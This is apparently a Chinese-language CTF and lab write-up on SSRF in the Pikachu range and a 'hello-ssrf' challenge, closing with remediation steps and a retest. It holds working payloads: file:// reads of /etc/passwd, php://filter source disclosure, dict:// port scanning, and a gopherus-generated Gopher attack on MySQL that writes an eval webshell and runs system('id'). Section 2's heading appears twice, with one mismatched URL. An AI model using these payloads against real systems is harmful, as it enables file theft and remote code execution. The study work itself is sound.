


# Pikachu SSRF + Gopher 攻击 MySQL

**靶场**：Pikachu SSRF 模块（ctf.eagleslab.com:41121）+ hello-ssrf（青少年 CTF 平台）
**安全等级**：Low
**时间**：2026.03

## 1. ssrf_curl — 任意 URL 读取

### 1.1 正常请求

```
http://ctf.eagleslab.com:41121/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/vul/ssrf/ssrf_info/info1.php
```

源码（核心 4 行）：

```php
$URL = $_GET['url'];
$CH = curl_init($URL);
curl_setopt($CH, CURLOPT_HEADER, FALSE);
$RES = curl_exec($CH);
```

URL 未做协议/域名白名单 → curl 跟随。

### 1.2 file:// 读本地文件

```
http://ctf.eagleslab.com:41121/vul/ssrf/ssrf_curl.php?url=file:///etc/passwd
```

→ 完整 /etc/passwd 内容被回显到页面。



### 1.3 内网探测对照（http 协议 → 抓 baidu.com）

替换 URL 为公网地址，验证 SSRF 能拉取任意 HTTP 内容（同样的 curl 服务）：

```
http://ctf.eagleslab.com:41121/vul/ssrf/ssrf_curl.php?url=https://www.baidu.com/
```



## 2. ssrf_fgc — file_get_content

```
http://ctf.eagleslab.com:41121/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1:22
```

## 2. ssrf_fgc — file_get_content

```
http://ctf.eagleslab.com:41121/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf_fgc.php
```

→ 读 PHP 源码并 base64 编码返回，绕过 Web 直接展示源码的限制。

## 3. hello-ssrf（青少年 CTF）

### 3.1 第一关

```bash
file:///flag
```

直接 file:// 协议读 flag。

### 3.2 第二关（端口爆破）

flag 分散在 6 个端口的页面里：`23, 81, 3309, 6380, 8082, 9001`。

```bash
# Burp Intruder 跑端口字典
GET /?url=dict://127.0.0.1:§PORT§ HTTP/1.1
```

对每个 port 抓页面中含 `flag{` 的响应。

### 3.3 第三关（Gopher 协议发送 TCP 数据）

```bash
gopher://host:port/_<data>
```

下划线 `_` 用于吞掉 curl 自动追加的 Content-Type 头。

### 3.4 第四关（**Gopher 攻击 MySQL**）

**核心场景**：SSRF + Gopher 模拟 MySQL 客户端登录请求，攻击未加密的本地 MySQL。

#### 步骤

1. 进入页面下方 **Connect** 进入 SSH 终端，root 密码 `123456`
2. MySQL 监听在 3306，root 密码 `root`
3. 用 `gopherus` 工具生成 payload：

```bash
python2 gopherus.py --exploit mysql
# 输入 SQL: SELECT "<?php @eval($_GET['c']);?>" INTO OUTFILE "/var/www/html/shell.php"
```

4. 把生成的 gopher payload 拼接进 SSRF URL：

```
http://target/ssrf.php?url=gopher://127.0.0.1:3306/_<gopherus_output>
```

5. 写 WebShell 到目标 `/var/www/html/`，访问 `shell.php?c=system("id")` 验证。

## 4. 修复建议

1. **URL 白名单**（最稳）：仅允许内网特定 IP 段
2. 协议白名单：禁用 `file://` `gopher://` `dict://` `ldap://`，只留 `http/https`
3. **解析后 IP 校验**（防 DNS rebinding）：
   ```php
   $ip = gethostbyname(parse_url($url, PHP_URL_HOST));
   if (!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
       die('blocked');
   }
   ```
4. 响应内容长度限制 / 禁用 30x 跳转跟随

## 5. 复测

- 白名单 + 协议过滤后，file:// / gopher:// 全部被拒
- DNS rebinding 防护（解析后 IP 校验）后，外部域名解析到内网 IP 也被拒
- MySQL 强制 SSL 后，Gopher 攻击失效（协议层加固最稳）
